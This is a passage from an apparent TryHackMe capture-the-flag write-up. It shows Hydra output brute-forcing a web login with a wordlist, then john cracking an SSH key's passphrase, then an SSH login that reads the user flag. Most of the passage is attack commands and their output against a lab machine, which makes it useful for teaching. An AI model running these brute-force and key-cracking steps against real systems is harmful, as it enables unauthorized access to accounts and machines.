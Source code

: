 ````shell
[ATTEMPT] target 10.10.254.69 - login "admin" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.254.69 - login "admin" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.254.69 - login "admin" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.254.69 - login "admin" - pass "princess" - 6 of 143443 99 [child 5] (0/0)

--snip--

[ATTEMPT] target 10.10.254.69 - login "admin" - pass "disney" - 523 of 14344399 [child 11] (0/0)
[ATTEMPT] target 10.10.254.69 - login "admin" - pass "rabbit" - 524 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.254.69 - login "admin" - pass "54321" - 525 of 14344399 [child 12] (0/0)
[80][http-post-form] host: 10.10.254.69   login: admin   password: xavier
````

Then take the RSA-Private key and first use ssh2john and then brute force with john 

````shell
┌──(grimlock㉿GRIMLOCK)-[~/tryhackme/brute]
└─$ /usr/share/john/ssh2john.py id_rsa > john.txt  
                                                                             
┌──(grimlock㉿GRIMLOCK)-[~/tryhackme/brute]
└─$ john john.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)     
1g 0:00:00:00 DONE (2024-04-03 13:32) 25.00g/s 1816Kp/s 1816Kc/s 1816KC/s saloni..rashon
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
````
now that we have the passphrase which is `rockinroll`.Use it to get into the machine using username `john`. Dont forget to chmod of the rsa key file first.
````shell
┌──(grimlock㉿GRIMLOCK)-[~/tryhackme/brute]
└─$ chmod 600 id_rsa  
┌──(grimlock㉿GRIMLOCK)-[~/tryhackme/brute]
└─$ ssh -i id_rsa john@10.10.254.69
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Apr  3 08:06:50 UTC 2024

  System load:  0.02               Processes:           102
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 36%                IP address for eth0: 10.10.254.69
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$ls
user.txt
john@bruteit:~$ cat user.txt 
THM{a_password_is_not_a_barrier}
````
